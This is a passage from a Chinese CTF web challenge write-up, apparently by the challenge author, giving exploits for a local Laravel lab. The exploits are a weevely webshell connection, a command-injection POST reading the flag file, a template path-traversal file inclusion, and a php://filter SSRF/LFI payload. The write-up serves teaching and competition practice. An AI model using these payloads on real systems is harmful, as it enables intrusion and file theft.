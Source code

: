 <pre class="lang:default decode:true">$ weevely http://ip:port/any xman1234</pre>

<span class="md-line md-end-block">随后通过weevely直接读flag</span>

### 5. Post checker=shellcmd in autoload.php {.md-end-block.md-heading}

<pre class="lang:default decode:true">POST http://localhost:21000/ HTTP/1.1
Host: localhost:21000
Content-Length: 41
Content-Type: application/x-www-form-urlencoded

checker=cat%20%2Fhome%2Fweb%2Fflag%2Fflag</pre>

### 6. template any file require {.md-end-block.md-heading}

<span class="md-line md-end-block"><span spellcheck="false"><code>http://localhost:21000/posts/create</code></span>在发布文章时修改提交的模板值</span>

<pre class="lang:default decode:true">html
&lt;div class="form-group"&gt;
    &lt;select class="form-control" name="template"&gt;
    &lt;option value="/../../../../../../home/web/flag/flag"&gt;Template 1&lt;/option&gt;
    &lt;option value="2.tpl"&gt;Template 2&lt;/option&gt;
    &lt;option value="3.tpl"&gt;Template 3&lt;/option&gt;&lt;/select&gt;
&lt;/div&gt;</pre>

<span class="md-line md-end-block">随后新发布的文章中就会包含flag的值</span>

### 7. resolve_file SSRF {.md-end-block.md-heading}

<pre class="lang:default decode:true">POST http://localhost:21000/resolve_image HTTP/1.1
Host: localhost:21000
Content-Length: 112
Content-Type: application/x-www-form-urlencoded
Cookie: laravel_session=eyJpdiI6ImN0alBVaUVmSWhDKzlpVXhybGVPZXc9PSIsInZhbHVlIjoianU3Ym9CcXFOeVN4bW5nS0k2MWxcL25Ed0FBN2s5VFg5SFlxRGl5eW12b1J4bkpSTFl3QzR3d0l4bUtvTzhMNklEQndEdlRDMVF0UmtSTllnVlNOaUR3PT0iLCJtYWMiOiJjNWNiNmMyODNjYmU1MGUyYTE0OWY0ZTMxMGQ4ZTRmM2Q2MDRhMDBjOWJmNTU4MGJjMDY1NGRkNzdjNDJhYjYwIn0%3D

resolve_file=php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3D../../../../../../home/web/flag/flag</pre>

<span class="md-line md-end-block"><span class="">随后根据返回的json文件中file_path的值下载文件后base64解码即为flag</span></span>

&nbsp;

## 0x03 总结

这次出题难度属于较为简单的，考察的也是最基础的一些常见web注入点。但由于时间关系和比赛性质，没有对XSS，CSRF，SQL注入等知识点进行考察，且所有的漏洞点均为可直接利用，没有需要二次利用的漏洞。以后可能会尝试出一些和密码学/misc/pwn相结合的web攻防题。最后也恭喜在这次夏令营中取得优异成绩的各位大师傅！